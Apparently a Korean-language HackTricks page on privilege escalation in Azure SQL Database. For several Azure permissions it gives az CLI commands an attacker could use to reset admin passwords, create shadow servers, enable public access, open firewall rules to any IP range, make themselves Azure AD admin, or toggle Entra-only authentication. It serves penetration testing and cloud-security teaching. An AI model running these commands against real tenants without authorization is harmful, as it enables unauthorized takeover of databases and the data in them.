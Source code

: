 # Az - SQL Database Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Privesc

SQL Database에 대한 자세한 내용은 다음을 확인하세요:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/write`

이 권한을 가진 사용자는 Azure SQL 서버를 업데이트하거나 생성하고, 관리 자격 증명을 포함한 중요한 구성을 수정하여 권한 상승을 수행할 수 있습니다. 이 권한은 사용자가 SQL 서버 관리자 비밀번호를 포함한 서버 속성을 업데이트할 수 있게 하여, 무단 접근 또는 서버에 대한 제어를 가능하게 합니다. 또한 새로운 서버를 생성할 수 있어, 악의적인 목적으로 그림자 인프라를 도입할 수 있습니다. "Microsoft Entra Authentication Only"가 비활성화된 환경에서는 SQL 기반 인증을 악용하여 무제한 접근을 얻을 수 있으므로 특히 중요해집니다.
```bash
# Change the server password
az sql server update \
--name <server_name> \
--resource-group <resource_group_name> \
--admin-password <new_password>

# Create a new server
az sql server create \
--name <new_server_name> \
--resource-group <resource_group_name> \
--location <location> \
--admin-user <admin_username> \
--admin-password <admin_password>
```
또한 비공개 엔드포인트가 아닌 곳에서 접근하려면 공개 액세스를 활성화해야 합니다. 활성화하려면:
```bash
az sql server update \
--name <server-name> \
--resource-group <resource-group> \
--enable-public-network true
```
### `Microsoft.Sql/servers/firewallRules/write`

공격자는 Azure SQL 서버의 방화벽 규칙을 조작하여 무단 액세스를 허용할 수 있습니다. 이를 통해 특정 IP 주소나 전체 IP 범위, 공용 IP를 포함하여 서버를 열 수 있으며, 악의적인 행위자에게 접근을 가능하게 합니다. 이 사후 활용 활동은 기존 네트워크 보안 제어를 우회하고, 지속성을 확립하거나, 민감한 리소스를 노출시켜 환경 내에서 수평 이동을 촉진하는 데 사용될 수 있습니다.
```bash
# Create Firewall Rule
az sql server firewall-rule create \
--name <new-firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <start-ip-address> \
--end-ip-address <end-ip-address>

# Update Firewall Rule
az sql server firewall-rule update \
--name <firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <new-start-ip-address> \
--end-ip-address <new-end-ip-address>
```
또한, `Microsoft.Sql/servers/outboundFirewallRules/delete` 권한을 사용하면 방화벽 규칙을 삭제할 수 있습니다.  
참고: 공용 액세스를 활성화해야 합니다.

### `Microsoft.Sql/servers/ipv6FirewallRules/write`

이 권한을 사용하면 Azure SQL Server에서 IPv6 방화벽 규칙을 생성, 수정 또는 삭제할 수 있습니다. 이는 공격자나 권한이 있는 사용자가 기존 네트워크 보안 구성을 우회하고 서버에 무단으로 접근할 수 있게 할 수 있습니다. 모든 IPv6 주소에서의 트래픽을 허용하는 규칙을 추가함으로써, 공격자는 서버를 외부 접근에 열 수 있습니다.
```bash
az sql server firewall-rule create \
--server <server_name> \
--resource-group <resource_group_name> \
--name <rule_name> \
--start-ip-address <start_ipv6_address> \
--end-ip-address <end_ipv6_address>
```
또한, `Microsoft.Sql/servers/ipv6FirewallRules/delete` 권한을 사용하면 방화벽 규칙을 삭제할 수 있습니다.  
참고: 공용 액세스를 활성화해야 합니다.

### `Microsoft.Sql/servers/administrators/write` && `Microsoft.Sql/servers/administrators/read`

이 권한을 사용하면 Azure SQL Server 환경에서 SQL 데이터베이스에 접근하고 중요한 정보를 검색하여 권한 상승을 할 수 있습니다. 아래 명령어를 사용하면 공격자 또는 권한이 있는 사용자가 자신 또는 다른 계정을 Azure AD 관리자으로 설정할 수 있습니다. "Microsoft Entra Authentication Only"가 활성화되어 있으면 서버 및 해당 인스턴스에 접근할 수 있습니다. SQL 서버의 Azure AD 관리자를 설정하는 명령어는 다음과 같습니다:
```bash
az sql server ad-admin create \
--server <server_name> \
--resource-group <resource_group_name> \
--display-name <admin_display_name> \
--object-id <azure_subscribtion_id>
```
### `Microsoft.Sql/servers/azureADOnlyAuthentications/write` && `Microsoft.Sql/servers/azureADOnlyAuthentications/read`

이 권한을 사용하면 Azure SQL Server에서 "Microsoft Entra Authentication Only"를 구성하고 시행할 수 있으며, 이는 특정 시나리오에서 권한 상승을 촉진할 수 있습니다. 공격자 또는 이러한 권한을 가진 승인된 사용자는 Azure AD 전용 인증을 활성화하거나 비활성화할 수 있습니다.
```bash
#Enable
az sql server azure-ad-only-auth enable \
--server <server_name> \
--resource-group <resource_group_name>

#Disable
az sql server azure-ad-only-auth disable \
--server <server_name> \
--resource-group <resource_group_name>
```
{{#include ../../../banners/hacktricks-training.md}}
